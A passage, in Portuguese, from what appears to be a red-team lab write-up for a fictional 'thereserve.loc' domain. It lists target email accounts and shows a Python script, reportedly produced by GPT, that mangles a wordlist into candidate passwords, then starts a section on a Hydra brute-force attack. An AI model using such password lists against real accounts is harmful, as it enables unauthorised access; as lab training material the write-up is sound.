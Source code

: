 ```
emily.harvey@corp.thereserve.loc
ashley.chan@corp.thereserve.loc
keith.allen@corp.thereserve.loc
mohammad.ahmed@corp.thereserve.loc
applications@corp.thereserve.loc
```

E a senha foi gerada por um arquivo em Python criado pelo `GPT`, com base na política de senhas e no arquivo de senhas que a aplicação nos forneceu.

```
import itertools

# Read the base wordlist
with open('wordlist/password_base_list.txt', 'r') as f:
    base_words = f.read().splitlines()

# Define the numbers and special characters
numbers = '0123456789'
special_chars = '!@#$%^'

# Function to generate mangled passwords
def generate_mangled_passwords(word):
    mangled_passwords = set()

    # Append numbers and special characters
    for num in numbers:
        for char in special_chars:
            # Add the number and special character at different positions
            mangled_passwords.add(word + num + char)
            mangled_passwords.add(word + char + num)

    # Ensure all generated passwords are at least 8 characters long
    mangled_passwords = {pwd for pwd in mangled_passwords if len(pwd) >= 8}
    
    return mangled_passwords
    
# Generate passwords and write to file
with open('generated_passwords.txt2', 'w') as f:
    for word in base_words:
        mangled_passwords = generate_mangled_passwords(word)
        for pwd in mangled_passwords:
            f.write(pwd + '\n')
```


## 6.1 Ataque de Força Bruta usando o `Hydra`

### 6.1.1 `10.200.89.11`
![](img/99d5b1a4c338c67a3dc1f68ccbdc2354.png)